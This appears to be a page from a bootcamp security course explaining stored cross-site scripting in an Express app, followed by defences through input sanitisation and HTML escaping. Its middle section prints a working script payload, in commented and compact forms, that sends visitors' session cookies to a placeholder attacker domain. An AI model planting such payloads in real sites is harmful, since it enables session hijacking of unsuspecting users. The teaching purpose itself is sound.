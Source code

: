 # 9.2.1: XSS

## XSS

XSS stands for Cross-Site Scripting. This is a vulnerability where a malicious attacker is allowed to save a snippet of JavaScript in the system that will be displayed later.

When that snippet is run on other site visitors browsers, the attacker can run a number of different kinds of insecure programs.

Here is how we would implement an XSS attack:

#### XSS Part 1 - Saving unsanitized user input

The first part of an XSS attack is the ability of an attacker to save JavaScript into the database.

```javascript
<script>alert('hey!')</script>
```

If we paste this HTML snippet directly into the form input it will be saved to the database.

![](../../.gitbook/assets/xss-form.png)

#### XSS Part 2 - Displaying unsanitized user input

Once this "cat" record has been saved to the database, any user who navigates to a page displaying this "cat" will run the JavaScript snippet above.

![](../../.gitbook/assets/xss-alert.png)

#### XSS Part 3 - Capturing and sending user session cookies

Now that we have the ability to run arbitrary JavaScript for every user who visits the site, we can do malicious things. One of the worst might be to steal the session cookie of any logged in user.

In order to do that we need to save a particular kind of JavaScript, one that gets a hold of the user's cookie and sends it to a server we control.

Commented Version:

```javascript
<script>
var allCookies = document.cookie;

// don't do an AJAX request in case there are CORS issues
// create an image tag
var imgEl = document.createElement('img');

// settting the img src causes the browser to try and request from this domain
imgEl.src = 'http://my-bad-domain.com?'+allCookies;
</script>
```

Compact Version:

```javascript
<script>var allCookies = document.cookie;var imgEl = document.createElement('img');imgEl.src = 'http://my-bad-domain.com?'+allCookies;</script>
```

Open the network tab and notice how all the cookie information is being sent to the malicious server.

![](../../.gitbook/assets/xss-cookie.png)

### XSS Solutions

In the example app this XSS attack was facilitated by 2 parts of the code:

**1. No validation of the user's inputs.**

Ideally the app would never allow a user to enter any text into the cat name field that resembles code.

An easy implementation to guard against this is to use one of many common NPM libraries made for this purpose. [xss](https://www.npmjs.com/package/xss) is one of the most popular.

Note that string sanitization so that it is guaranteed not to contain JavaScript is a very hard problem to solve. See this example here: [https://dev.to/catmcgeecode/code-anything-in-javascript-with-only-8-characters-5ghp](https://dev.to/catmcgeecode/code-anything-in-javascript-with-only-8-characters-5ghp)

**2. No sanitization of the display of the database values.**

In this special express app we are not running EJS. When we print out the values from the database our code will directly generate HTML tags that will be interpreted by the browser.

See the code here: [https://github.com/rocketacademy/express-security-bootcamp/blob/main/index.js\#L320](https://github.com/rocketacademy/express-security-bootcamp/blob/main/index.js#L320)

If we had used EJS, the code's characters would be displayed on the screen, instead of being interpreted by the browser. This is called HTML character escape. Most modern view / HTML generation libraries will provide this functionality built-in. However, character escape does not always keep the app safe from XSS. The other measures already mentioned should still be implemented.

